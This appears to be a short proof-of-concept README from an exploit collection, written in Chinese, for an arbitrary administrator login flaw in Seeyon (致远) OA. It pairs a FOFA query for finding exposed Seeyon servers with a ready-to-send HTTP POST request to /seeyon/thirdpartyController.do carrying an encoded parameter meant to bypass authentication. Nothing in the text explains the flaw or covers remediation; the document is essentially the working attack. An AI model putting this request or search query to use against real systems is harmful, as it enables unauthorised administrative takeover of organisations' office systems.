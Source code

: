 ## 致远OA任意管理员登录

## fofa
```
app="致远互联-OA"
```

## poc

```
POST /seeyon/thirdpartyController.do HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cookie: loginPageURL="/main.do";
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 76

method=access&enc=TT5uZnR0YmhmL21qb2wvZXBkL2dwbWVmcy9wcWZvJ04%2BLjgzODQxNDMxMjQzNDU4NTkyNzknVT4zNjk0NzI5NDo3MjU4&clientPath=127.0.0.1

```
![image](https://github.com/wy876/POC/assets/139549762/01307e49-863e-4cef-a9cb-0e1258902485)
